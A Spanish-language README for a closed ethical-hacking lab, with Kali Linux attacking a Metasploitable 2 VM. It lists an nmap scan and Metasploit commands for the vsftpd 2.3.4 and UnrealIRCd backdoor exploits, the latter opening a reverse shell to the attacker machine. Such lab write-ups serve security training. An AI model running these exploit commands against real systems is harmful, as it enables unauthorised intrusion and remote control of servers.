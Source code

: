 # LAB HACK ET 1 – Laboratorio de Hacking Ético con Kali y Metasploitable 2 🧪

## Descripción
Este laboratorio demuestra el uso de herramientas como `nmap` y `Metasploit` para realizar pruebas de penetración en un entorno controlado usando:

- Kali Linux como máquina atacante
- Metasploitable 2 como máquina víctima

## Herramientas
- Kali Linux 2025.2
- Metasploitable 2
- VMware Workstation
- nmap
- Metasploit Framework (msfconsole)

## Fases

### Fase 1 – Reconocimiento con nmap
```bash
nmap -sS -sV -O 192.168.20.129 -oN scan1.txt

### Fase 2 – Explotación

### Exploit 1: vsftpd 2.3.4 Backdoor

use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.20.129
run

### Exploit 2: UnrealIRCd Backdoor

use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.20.129
set LHOST 192.168.20.128
set LPORT 4444
run

## Evidencias

Las evidencias se encuentran en el archivo PDF LAB_HACK_ET_1.pdf y en la carpeta evidencias/.

## Conclusiones

    Se logró comprometer completamente la máquina víctima.

    Se aplicaron técnicas básicas de pentesting con herramientas estándar.

    Buen ejemplo de práctica en laboratorio cerrado y ético.
